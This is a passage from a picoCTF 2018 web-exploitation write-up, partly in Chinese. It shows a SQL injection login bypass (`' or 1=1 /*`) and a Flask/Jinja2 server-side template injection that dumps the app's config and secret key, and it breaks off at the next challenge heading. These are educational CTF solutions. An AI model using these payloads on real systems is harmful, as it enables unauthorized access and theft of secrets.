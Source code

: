 2. `username = admin; passeord = ' or 1=1 /*`

3. Get sqlag!

---

## Flaskcards (Web Exploitation)

> We found this fishy [website](http://2018shell.picoctf.com:17991/) for flashcards that we think may be sending secrets. Could you take a look?
>
> Hint1: Are there any common vulnerabilities with the backend of the website?
> 
> Hint2: Is there anywhere that filtering doesn't get applied?

0. 據 Hint1 ，先 google 一下，發現`flask`是一個用 Python 寫的 Web應用程式框架。其中存在一種漏洞：`Server-Side Template Injection (SSTI)`

1. 參考[`SSTI`]，在`Create Card`做測試(https://portswigger.net/blog/server-side-template-injection)
```
Create Card1
Q: 7*7
A: {{7*7}}

List Cards1
Q: 7*7
A: 49        # Found SSTI vulnerability

CC2
Q: identify
A: {{7*'7'}}

LC2
Q: identify
A: 7777777    # indentify it uses Jinja2 as the template engine

...trying...

CC3
Q: config
A: <Config {'SEEK_CUR': 1, ..., 'SECRET_KEY': 'picoCTF{XXXXXXXXXXXXXXX}'
```

2. Get flask!

* 參考
    * [angstromctf-2018-web-writeups](https://medium.com/bugbountywriteup/angstromctf-2018-web-writeups-part-2-6c1ee586aa64)
    * [server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)

---

## Help Me Reset 2 (Web Exploitation)
